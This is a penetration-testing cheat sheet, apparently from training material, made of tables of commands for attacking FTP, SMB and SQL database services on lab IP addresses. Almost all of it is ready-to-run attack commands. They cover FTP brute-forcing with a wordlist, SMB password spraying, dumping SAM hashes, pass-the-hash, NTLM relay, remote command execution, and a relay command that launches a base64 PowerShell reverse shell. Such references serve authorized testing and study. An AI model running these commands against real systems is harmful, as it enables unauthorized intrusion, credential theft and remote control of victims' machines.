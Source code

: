 ## Attacking FTP

|**Command**|**Description**|
|---|---|
|`ftp 192.168.2.142`|Connecting to the FTP server using the `ftp` client.|
|`nc -v 192.168.2.142 21`|Connecting to the FTP server using `netcat`.|
|`hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`|Brute-forcing the FTP service.|

---

## Attacking SMB

|**Command**|**Description**|
|---|---|
|`smbclient -N -L //10.129.14.128`|Null-session testing against the SMB service.|
|`smbmap -H 10.129.14.128`|Network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 -r notes`|Recursive network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 --download "notes\note.txt"`|Download a specific file from the shared folder.|
|`smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`|Upload a specific file to the shared folder.|
|`rpcclient -U'%' 10.10.110.17`|Null-session with the `rpcclient`.|
|`./enum4linux-ng.py 10.10.11.45 -A -C`|Automated enumeratition of the SMB service using `enum4linux-ng`.|
|`crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`|Password spraying against different users from a list.|
|`impacket-psexec administrator:'Password123!'@10.10.110.17`|Connect to the SMB service using the `impacket-psexec`.|
|`crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`|Execute a command over the SMB service using `crackmapexec`.|
|`crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`|Enumerating Logged-on users.|
|`crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`|Extract hashes from the SAM database.|
|`crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`|Use the Pass-The-Hash technique to authenticate on the target host.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`|Dump the SAM database using `impacket-ntlmrelayx`.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>`|Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`.|

---

## Attacking SQL Databases

|**Command**|**Description**|
|---|---|
|`mysql -u julio -pPassword123 -h 10.129.20.13`|Connecting to the MySQL server.|
|`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`|Connecting to the MSSQL server.|
|`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux.|
|`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.|
|`mysql> SHOW DATABASES;`|Show all available databases in MySQL.|
|`mysql> USE htbusers;`|Select a specific database in MySQL.|
|`mysql> SHOW TABLES;`|Show all available tables in the selected database in MySQL.|
|`mysql> SELECT * FROM users;`|Select all available entries from the "users" table in MySQL.|